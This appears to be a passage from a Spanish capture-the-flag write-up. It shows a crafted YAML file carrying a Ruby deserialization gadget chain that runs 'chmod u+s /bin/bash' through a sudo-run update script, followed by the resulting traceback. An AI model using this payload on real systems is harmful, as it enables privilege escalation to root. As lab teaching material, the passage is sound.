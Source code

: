 ```bash
cat <<EOF > dependencies.yml
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: chmod u+s /bin/bash
         method_id: :resolve
EOF

```
---
Ejecutamos el script Ruby con `sudo`, usando el archivo `dependencies.yml` modificado para intentar explotar la vulnerabilidad.

```bash
henry@precious:~$ sudo /usr/bin/ruby /opt/update_dependencies.rb
_______________________________________________________________________
sh: 1: reading: not found
Traceback (most recent call last):
	33: from /opt/update_dependencies.rb:17:in `<main>'
	32: from /opt/update_dependencies.rb:10:in `list_from_file'
	31: from /usr/lib/ruby/2.7.0/psych.rb:279:in `load'
	30: from /usr/lib/ruby/2.7.0/psych/nodes/node.rb:50:in `to_ruby'
	29: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:32:in `accept'
	28: from /usr/lib/ruby/2.7.0/psych/visitors/visitor.rb:6:in `accept'
	27: from /usr/lib/ruby/2.7.0/psych/visitors/visitor.rb:16:in `visit'
	26: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:313:in `visit_Psych_Nodes_Document'
	25: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:32:in `accept'
	24: from /usr/lib/ruby/2.7.0/psych/visitors/visitor.rb:6:in `accept'
	23: from /usr/lib/ruby/2.7.0/psych/visitors/visitor.rb:16:in `visit'
	22: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:141:in `visit_Psych_Nodes_Sequence'
	21: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:332:in `register_empty'
	20: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:332:in `each'
	19: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:332:in `block in register_empty'
	18: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:32:in `accept'
	17: from /usr/lib/ruby/2.7.0/psych/visitors/visitor.rb:6:in `accept'
	16: from /usr/lib/ruby/2.7.0/psych/visitors/visitor.rb:16:in `visit'
	15: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:208:in `visit_Psych_Nodes_Mapping'
	14: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:394:in `revive'
	13: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:402:in `init_with'
	12: from /usr/lib/ruby/vendor_ruby/rubygems/requirement.rb:218:in `init_with'
	11: from /usr/lib/ruby/vendor_ruby/rubygems/requirement.rb:214:in `yaml_initialize'
	10: from /usr/lib/ruby/vendor_ruby/rubygems/requirement.rb:299:in `fix_syck_default_key_in_requirements'
	9: from /usr/lib/ruby/vendor_ruby/rubygems/package/tar_reader.rb:59:in `each'
	8: from /usr/lib/ruby/vendor_ruby/rubygems/package/tar_header.rb:101:in `from'
	7: from /usr/lib/ruby/2.7.0/net/protocol.rb:152:in `read'
	6: from /usr/lib/ruby/2.7.0/net/protocol.rb:319:in `LOG'
	5: from /usr/lib/ruby/2.7.0/net/protocol.rb:464:in `<<'
	4: from /usr/lib/ruby/2.7.0/net/protocol.rb:458:in `write'
```